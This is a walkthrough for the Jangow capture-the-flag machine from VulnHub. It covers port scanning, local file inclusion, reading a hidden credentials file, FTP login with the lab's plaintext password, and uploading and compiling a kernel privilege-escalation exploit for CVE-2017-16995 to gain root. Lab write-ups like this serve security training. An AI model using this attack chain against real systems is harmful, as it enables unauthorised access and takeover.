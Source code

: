# JANGOW-1.0.1-Walkthrough-Vulnhub
Walkthrough and exploitation steps for the Jangow CTF machine from VulnHub.
## 🕵️‍♀️ VulnHub CTF — Jangow Walkthrough

This is a walkthrough for the **Jangow** machine from VulnHub. It covers the entire exploitation process, including enumeration, LFI, credential discovery, privilege escalation, and finally rooting the machine.

---

### 💾 Setup

- Import the `.ova` file into VirtualBox.
- Run the machine.
- Use `netdiscover` to identify its IP:

```bash
netdiscover -i eth0
```

I discovered the machine at `192.168.1.122`.

---

### 🔎 Port Scanning with Nmap

Initial port scan:

```bash
nmap 192.168.1.122
```

Open ports:
- **80 (HTTP)**
- **21 (FTP)**

Detailed scan:

```bash
nmap -p 80,21 -Pn -n -sC -sV -oN nmap_scan.txt 192.168.1.122
```

**Flags used:**
- `-p`: specific ports
- `-Pn`: skip host discovery
- `-n`: skip DNS resolution
- `-sC`: run default scripts
- `-sV`: detect service versions
- `-oN`: save output to file

---

### 🌐 Web Enumeration

Visiting `http://192.168.1.122` reveals a website with a **"Buscar"** tab, which redirects to:

```
https://pwnlab.me/redirect?to=aHR0cDovLzE5Mi4xNjguNTYuMTE4L3NpdGUvYnVzcXVlLnBocD9idXNjYXI9
```

This link appears vulnerable to **Local File Inclusion (LFI)**.

By manipulating the URL, we can inspect the file structure and extract sensitive files.

---

### 🔐 Credential Discovery

Exploring the web root:

```bash
pwd
# /var/www/html/site

ls -all
```

Found a hidden file: `.backup`  
Contents of `.backup` reveal **MySQL credentials**.

Also, since FTP port is open, I tested those credentials on the FTP service.

---

### 📂 FTP Access & File Upload

Login to FTP using:

```bash
ftp 192.168.1.122
```

Credentials:
```
Username: jangow01
Password: abygurl69
```

Change to the user's home directory:

```ftp
cd /home/jangow01
```

Download the user flag:

```ftp
get user.txt
```

---

### 🚩 Privilege Escalation

Check the kernel version:

```bash
uname -a
# Linux jangow01 4.4.0-31-generic
```

Search for privilege escalation exploits and found:  
**CVE-2017-16995**

Downloaded and saved the exploit as `jangow.c`.

Upload it via FTP:

```ftp
put jangow.c
```

---

### ⚙️ Compilation & Exploitation

On the Jangow machine:

```bash
gcc jangow.c -o jangow
chmod +x jangow
./jangow
```

Now you're root!

---

### 🏁 Root Flag

Check the user:

```bash
whoami
# root
```

Get the flag:

```bash
ls /root
cat /root/proof.txt
```

---

## ✅ Summary

- Gained access via **LFI**
- Extracted credentials via hidden file
- Used **FTP** to upload a privilege escalation exploit
- Compiled and executed exploit
- Gained **root access**

**Machine successfully rooted!** 🎉

